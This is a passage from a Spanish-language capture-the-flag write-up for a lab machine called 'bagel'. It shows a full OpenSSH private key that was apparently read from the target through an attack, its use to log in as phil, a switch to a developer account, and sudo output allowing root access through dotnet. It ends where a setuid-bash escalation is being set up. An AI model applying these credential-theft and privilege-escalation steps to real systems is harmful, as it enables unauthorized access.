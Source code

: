 ```shell
    "ReadFile": "-----BEGIN OPENSSH PRIVATE KEY-----\n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\nnrEIIvsBGmrx0AAAAKcGhpbEBiYWdlbAE=\n-----END OPENSSH PRIVATE KEY-----",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
}
```
Usamos la clave y podemos ingresar a la máquina como Phil. Aquí al logramos cambiar de usuario a developer con las credenciales encontradas en el archivo dll. Para llegar a ser root primero enumeramos el sistema. Encontramos que tiene permisos sudo para dotnet.

```shell
[developer@bagel phil]$ sudo -l
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS
    _XKB_CHARSET XAUTHORITY", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```
Para esta parte podemos crear un archivo cs para poder introducir código que nos ejecute comandos como root, en este caso intentaremos ponerle setuid a la bash. Seguimos los siguientes pasos.

